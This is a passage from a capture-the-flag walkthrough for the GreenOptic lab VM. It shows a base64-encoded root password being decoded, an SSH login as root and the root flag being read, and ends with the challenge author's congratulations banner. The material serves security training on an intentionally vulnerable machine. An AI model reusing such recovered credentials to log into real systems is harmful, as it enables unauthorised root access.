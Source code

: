 <img src="/assets/img/uploads/greenoptic/root-passwd.png">
</center>

After decoding the hash, we get the password for root

```r
root@kali:~# echo -n AHJvb3QAQVNmb2pvajJlb3p4Y3p6bWVkbG1lZEFTQVNES29qM28= | base64 -d
rootASfojoj2eozxczzmedlmedASASDKoj3o
```

Now we can login as root via ssh using and read our flag!

```c#
root@kali:~# ssh root@greenoptic.vm
root@greenoptic.vm's password: ASfojoj2eozxczzmedlmedASASDKoj3o

[root@websrv01 ~]# id
uid=0(root) gid=0(root) groups=0(root)

[root@websrv01 ~]# cat root.txt 
Congratulations on getting root!

  ____                      ___        _   _      
 / ___|_ __ ___  ___ _ __  / _ \ _ __ | |_(_) ___ 
| |  _| '__/ _ \/ _ \ '_ \| | | | '_ \| __| |/ __|
| |_| | | |  __/  __/ | | | |_| | |_) | |_| | (__ 
 \____|_|  \___|\___|_| |_|\___/| .__/ \__|_|\___|
                                |_|             
  
You've overcome a series of difficult challenges, so well done!

I'm happy to make my CTFs available for free. If you enjoyed doing the CTF, please leave a comment on my blog at https://security.caerdydd.wales - I will be happy for your feedback so I can improve them and make them more enjoyable in the future.

*********
```